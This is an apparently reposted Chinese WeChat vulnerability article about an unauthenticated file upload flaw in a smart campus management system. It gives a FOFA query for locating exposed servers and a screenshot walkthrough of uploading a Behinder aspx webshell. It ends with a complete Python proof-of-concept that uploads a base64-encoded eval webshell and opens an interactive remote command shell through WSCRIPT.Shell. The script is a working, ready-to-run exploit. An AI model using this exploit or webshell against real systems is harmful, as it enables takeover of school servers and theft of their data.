 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ceVqiqWlXTI4h___Bpkjtg)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**推荐**公众号**啦🐑**

公众号

**一****：漏洞描述🐑**

**智慧校园管理系统前台注册页面存在文件上传，由于没有对上传的文件进行审查导致可上传恶意文件控制服务器**

**二:  漏洞影响🐇**

**智慧校园管理系统**

**三:  漏洞复现🐋**

**FOFA 语句: body="DC_Login/QYSignUp"**

```
登录页面如下，只要存在企业用户注册就可能出现漏洞,
注意下部分页面没有注册点击位置，但是存在  /DC_OA_WJG/Upload 上传接口
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5zUyCZtUXZXrBvp29407nicM20KHzXDpktKOWtyjBichW4Kx2zglEgfoyNcbtM30RXUYn4a2dSXHAg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5zUyCZtUXZXrBvp29407nic0K0adEOJS6IhGg6NR7v4ibnS1TDOicq6q27rTAFgFhBm3eqtPqtpa2Ng/640?wx_fmt=png)

这个地方的上传附件允许了任意文件上传，包括 aspx 木马，上传后还会返回 webshell 地址  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5zUyCZtUXZXrBvp29407nicmXCxEKpv08Me1apSChibDpJeZkbLVqIyQahljicXqlp0WodR3JicnFpjQ/640?wx_fmt=png)

上传的是冰蝎木马，直接连接

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5zUyCZtUXZXrBvp29407nicEP07QiapkoCSYOAQqDc0ibZ35lFibl6hoLyOVROibBxqCMG2EgoF5oR15g/640?wx_fmt=png)

****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 智慧校园管理系统                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/DC_OA_WJG/Upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryNxqOHxbHqt9mf7s5",
    }
    data = base64.b64decode("LS0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5TnhxT0h4YkhxdDltZjdzNQpDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InVwRmlsZSI7IGZpbGVuYW1lPSJQZWlRaS5hc3B4IgpDb250ZW50LVR5cGU6IGFwcGxpY2F0aW9uL29jdGV0LXN0cmVhbQoKPHNjcmlwdCBsYW5ndWFnZT0iSlNjcmlwdCIgcnVuYXQ9InNlcnZlciI+ZnVuY3Rpb24gUGFnZV9Mb2FkKCl7ZXZhbChSZXF1ZXN0WyJQZWlRaSJdLCJ1bnNhZmUiKTt9PC9zY3JpcHQ+CgotLS0tLS1XZWJLaXRGb3JtQm91bmRhcnlOeHFPSHhiSHF0OW1mN3M1LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/DC_OA_WJG/Upload 尝试上传木马..... \033[0m".format(target_url))
        if 'true' in response.text and 'path' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 Webshell文件\033[0m".format(target_url))
            webshell_path = re.findall(r'"path":"(.*?)"', response.text)[0]
            print("\033[32m[o] Webshell文件地址: {}/{} \033[0m".format(target_url, webshell_path))
            while True:
                Cmd = str(input("\033[35mCmd >>> \033[0m"))
                cmd_url = target_url + "/" + webshell_path + "?PeiQi=Response.Write(new%20ActiveXObject(%22WSCRIPT.Shell%22).exec(%22cmd%20/c%20{}%22).StdOut.ReadAll());".format(Cmd)
                requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
                response = requests.get(url=cmd_url, data=data, headers=headers, verify=False, timeout=5)
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 目标 {} 上传Webshell文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5zUyCZtUXZXrBvp29407nicICaadTpiazxOHq60WBlVMMrAiaymjfxQGVH3nallfjPZsambp7rR4OUg/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章和重大的漏洞都会在第一时间推送在公众号和交流群中，想要加入交流群的师傅加我好友拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐
> 
> https://github.com/PeiQi0/PeiQi-WIKI-POC

公众号